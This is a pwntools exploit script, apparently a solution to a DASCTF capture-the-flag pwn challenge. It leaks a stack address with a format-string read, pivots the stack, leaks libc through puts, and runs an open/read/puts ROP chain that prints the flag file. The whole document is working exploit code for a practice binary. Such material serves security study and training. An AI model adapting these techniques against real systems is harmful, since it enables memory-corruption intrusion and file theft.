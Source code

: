 ```plain
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data,num           :u32(p.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(p.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
context.terminal = ['gnome-terminal','-x','sh','-c']

def dbg():
   gdb.attach(proc.pidof(p)[0])
   pause()

bss = elf.bss()-0x80
bss4=bss+0x400
li(hex(bss4))
pop_rdi=0x401413
ret=0x40101a
leave=0x4012e0
read=0x401378
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

ru('name:\n')
sl('%28$p')
ru('Hello, ')
stack_addr = int(p.recv(14),16)-0x1a0 
li('stack_addr = '+hex(stack_addr))

ru(b'Now, please say something to DASCTF:\n')

payload = p64(stack_addr+0xb0+0x28) 
payload += p64(pop_rdi)+p64(elf.got["puts"])+p64(elf.plt["puts"])+p64(0x401378) 
payload = payload.ljust(0xb0,b'\0')
payload+= p64(stack_addr)+p64(0x4012e0)
p.send(payload)

libc_base=l64()-libc.sym['puts']
li('libc_base = '+hex(libc_base))

pop_rsi = libc_base+0x000000000002601f 
pop_rdx = libc_base+0x0000000000142c92
open_addr = libc_base + libc.sym['open']
read_addr = libc_base + libc.sym['read']
puts_addr = libc_base + libc.sym['puts']

orw = p64(pop_rdi)+p64(stack_addr+0xd0)+p64(pop_rsi)+p64(0)+p64(open_addr)
#open('./flag\x00\x00',0)
orw += p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(elf.bss()+0x800)+p64(pop_rdx)+p64(0x50)+p64(elf.plt["read"])
#read(3,elf.bss()+0x800,0x50)
orw += p64(pop_rdi)+p64(elf.bss()+0x800)+p64(elf.plt["puts"])
#puts(elf.bss()+0x800)
orw = orw.ljust(0xa8,b'\0')+b'./flag\x00\x00'

orw+= p64(stack_addr+0x28-8)+p64(0x4012e0)
p.send(orw)

itr()
```
